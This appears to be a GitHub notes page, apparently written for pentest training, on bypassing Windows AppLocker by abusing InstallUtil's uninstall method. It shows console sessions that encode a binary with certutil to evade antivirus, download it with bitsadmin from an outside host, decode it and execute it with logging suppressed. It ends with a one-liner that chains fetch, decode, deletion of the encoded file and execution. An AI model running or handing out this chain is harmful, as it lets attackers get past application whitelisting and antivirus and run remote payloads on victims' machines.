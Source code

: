 Description:bypass the AppLocker executable rule by abusing the InstallUtil commmand line utility that allow us to install and unisntall server resources by executing the installer component in a assembly.
Only be using uninstall method since install method require admin priv.

References to add
<img width="1903" height="1079" alt="image" src="https://github.com/user-attachments/assets/cd524f87-76f9-4063-9863-86f2aa7f8333" />

To trigger the bypass we must invoked it through the installutil with /logfile to avoid logging to a file. 
/logfile=false to avoid.
/U to trigger the unisntall method 
```
C:\Users\User\source\repos\ConsoleApp1\ConsoleApp1\bin\x64\Release>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U ConsoleApp1.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.9032.0
Copyright (C) Microsoft Corporation.  All rights reserved.


C:\Users\User\source\repos\ConsoleApp1\ConsoleApp1\bin\x64\Release>type C:\Tools\test.txt
FullLanguage
```
Bypass AV by Ofuscating:
```
C:\Users\User\source\repos\ConsoleApp1\ConsoleApp1\bin\x64\Release>certutil -encode ConsoleApp1.exe file.txt
Input Length = 5120
Output Length = 7098
CertUtil: -encode command completed successfully.
```

Transfer to kali 
Download using bitsadmin and decode using certutil

```
c:\>c:\>bitsadmin /Transfer myJob http://192.168.1.23/test.txt C:\Users\User\enc.txt

 Volume in drive C is Windows
 Volume Serial Number is 4ADC-2BFC

 Directory of c:\

DISPLAY: 'myJob' TYPE: DOWNLOAD STATE: TRANSFERRED
PRIORITY: NORMAL FILES: 1 / 1 BYTES: 30 / 30 (100%)
Transfer complete.

c:\Users\User>certutil -decode enc.txt Bypass.exe
Input Length = 30
Output Length = 9
CertUtil: -decode command completed successfully.
```

Run
```
c:\Users\User>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\User\Bypass.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.9032.0
Copyright (C) Microsoft Corporation.  All rights reserved.
```

One Liner:
```
C:\Users\student>bitsadmin /Transfer myJob http://IP/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe  

```


